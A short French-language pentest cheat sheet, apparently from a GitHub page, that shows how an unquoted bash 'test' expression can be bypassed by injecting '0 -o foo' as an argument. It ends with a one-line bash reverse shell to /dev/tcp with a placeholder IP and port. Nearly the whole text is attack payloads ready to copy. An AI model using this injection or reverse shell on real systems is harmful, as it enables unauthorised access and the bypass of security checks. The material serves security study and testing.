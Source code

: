 # Injection unquoted expression
Exemple avec ce script :
```bash
if test $TOTO -eq ${1} 2>/dev/null; then
    echo "Bypass"
else
    echo "No"
fi
```
On peut remplacer ${1} par "0 -o foo", ce qui devient avec le script précédent :
```bash
if test $TOTO -eq 0 -o foo 2>/dev/null; then
    echo "Bypass"
else
    echo "No"
fi
```
L'expression -o foo est toujours vraie et donc le bypass est réussi

# Reverse shell
```bash
bash -i >& /dev/tcp/x.x.x.x/xxxx 0>&1 
```
